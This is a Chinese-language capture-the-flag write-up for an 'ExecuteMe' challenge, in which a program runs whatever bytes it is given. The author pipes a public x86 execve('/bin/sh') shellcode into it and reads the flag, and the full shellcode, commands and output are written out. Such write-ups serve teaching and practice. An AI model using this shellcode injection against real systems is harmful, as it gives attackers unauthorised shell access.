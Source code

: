# ExecuteMe
這是一段會執行任何輸入字串的程式，看到程式碼：
```c
typedef void (*function_ptr)();
...
((function_ptr)buf)();
```
查了function pointer的用法：
 * 每個function包含code和指到code的function pointer
 * 而上面的程式碼是在告訴compiler，function_ptr的code從buf開始，所以compiler會把function pointer指到buf的開始位址
 * 但要注意到function指到的位置必須是**可執行的assembly byte code**

所以，能打開shell的assembly code必須符合以下條件：
 1. **不能包含\x0**，否則copy function會當作結束字元
 2. **執行輸入的code**：overwrite RET，相對位置 = 4(%esp)
 3. **猜中RET**：插入nop來增加成功率

想自己寫一個開啟shell的shellcode，但還沒成功，所以先用網路上其他人做的：
`\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68`
 1. 放入程式執行，因為是hex所以必須轉成字元，再用pipe傳給./execute
```bash
pico62895@shell:/home/execute$ (echo -e '\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68') | ./execute
pico62895@shell:/home/execute$
```
 成功執行，但在我們能輸入其他指令前就結束了
 2. 所以使用cat讓他開著，並且會把結果印到terminal上：
```bash
pico62895@shell:/home/execute$ (echo -e '\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'; cat) | ./execute
ls
Makefile   core       execute	 execute.c  flag.txt
cat flag.txt
shellcode_is_kinda_cool
```

成功取得flag。
